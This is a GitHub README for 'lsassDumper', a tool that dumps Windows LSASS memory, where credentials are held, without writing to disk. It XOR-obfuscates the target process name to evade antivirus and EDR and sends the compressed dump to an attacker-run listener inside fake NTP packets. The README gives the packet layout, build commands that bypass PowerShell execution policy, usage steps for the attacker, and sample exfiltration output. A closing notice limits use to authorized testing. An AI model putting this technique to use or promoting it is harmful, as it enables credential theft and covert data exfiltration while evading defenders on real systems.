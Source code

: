 <h1 align="center"> Project lsassDumper </h1>

## **🔍 Overview**
`lsassDumper` is an advanced tool designed to **stealthily dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**.  
Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

The tool consists of:
- A **dumper** `memdump.c` to **extract LSASS memory** in RAM.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.  

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode|    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Root Delay (32-bit)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Root Dispersion (32-bit)                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Reference ID (32-bit)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Reference Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Originate Timestamp (64-bit)                 |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Receive Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Transmit Timestamp (64-bit)                  | <-- Exfiltrated Data
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we **embed data in this field**.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the disguise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have vscode or else configured
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

### **🔹 Linux (Bash)**
 -- If you have wingw configured
1. Open **Terminal** and run:
   ```bash
   sudo apt update && sudo apt upgrade
   pip install -r requirements.txt
   ./run.sh
   ```


---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**  
Use this tool **only on systems you own or have explicit permission to test**.

---

